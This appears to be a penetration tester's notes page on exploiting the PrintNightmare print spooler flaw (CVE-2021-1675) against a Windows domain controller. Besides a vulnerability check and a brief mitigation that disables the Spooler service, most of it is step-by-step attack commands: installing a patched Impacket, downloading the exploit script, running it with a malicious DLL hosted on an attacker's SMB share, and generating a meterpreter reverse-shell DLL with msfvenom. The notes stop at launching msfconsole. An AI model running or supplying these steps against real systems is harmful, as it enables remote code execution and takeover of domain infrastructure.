 <br>

### Resources

cube0x0 RCE - [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)

calebstewart LPE - [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)

### Exploit

- Check if Vulnerable: use rpcdump.py

		rpcdump.py @{IP} | egrep 'MS-RPRN|MS-PAR'

	If we get those results back, we vulnerable :(

### Mitigation - just disable the damn service!

	Stop-Service Spooler
	REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start" /t REG_DWORD /d "4" /f

### Installation

Before running the exploit you need to install new version of Impacket 

	pip3 uninstall impacket
	git clone https://github.com/cube0x0/impacket
	cd impacket
	python3 ./setup.py install

Get that CVE Script 

	wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py

<div style="page-break-after: always;"></div>
<br>

### Exploit

	{ip} => Our Attacker's IP
	{dcip} => Domain Controller's IP

Now we're going to run that script with a malicious `.dll`

AND we're going to host that `.dll `


	/CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
	
	./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'

Generate a payload, using `msfvenom`

	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={ip} LPORT=4444 -f dll > shell.dll
	
Now get a meterpreter session

	msfconsole
	